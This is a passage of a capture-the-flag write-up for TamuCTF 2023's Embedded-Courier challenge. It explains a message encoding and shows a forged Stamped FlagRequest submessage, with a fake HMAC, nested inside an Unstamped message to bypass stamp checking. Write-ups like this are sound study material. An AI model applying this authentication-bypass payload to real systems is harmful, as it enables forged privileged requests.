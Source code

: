 The subsequent response `Response(HailstoneResponse(12))` will be encoded as
the  
byte array:  
```py  
[  
 0x02, # Enum value of Response  
 0x00, # Enum value of HailstoneResponse  
 0x0C  # Hex for varint(12u16)  
]  
```

The file
[`encoder.rs`](https://github.com/yarml/Writeups/blob/main/TamuCTF2023/Embedded-
Courier/res/encoder.rs) is a simple tool I wrote that would  
print the encoding of a couriered package, it needs to be modified from source  
to print the encoding of a different couriered package, but it is really
simple  
(and also my first written lines of Rust).

# The Attack  
Now let's put all the knowledge we gained from analyzing the system together  
and let's see how it can be fatally exploited.

We know that `consignee` does not check stamps and trusts that `courier` did  
so. And we know that `consignee` can still reject a message sent to it from  
`courier` in the case the message is of a size between `2^10` and `2^12`.  
This also allows us to make `consignee` read a *sub*message from the body  
of another *parent* message.

It is kind of obvious how this can be exploited, we need to send an
`Unstamped`  
message to `courier` of size `2^11` for example, and have in its body a  
`Stamped` *sub*message for `consignee` with th `FlagRequest`.

The format of the `FlagRequest` message is as follows:  
```rust  
Stamped(  
 StampedPackage {  
   ctr: 0x0c, // arbitrary  
   hmac: [0x0du8; 32], // arbitrary  
   stamped_payload: Vec::from(  
     [1u8] // Enum value for FlagRequest  
   )  
 }  
)  
```  
Which is encoded to  
```py  
[  
 0x01, # Enum value of Stamped  
 0x0c, # ctr  
 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, # hmac p1  
 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, # hmac p2  
 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, # hmac p3  
 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, # hmac p4  
 0x01, # Count of next byte  
 0x01  # Enum value of FlagRequest  
]  
```
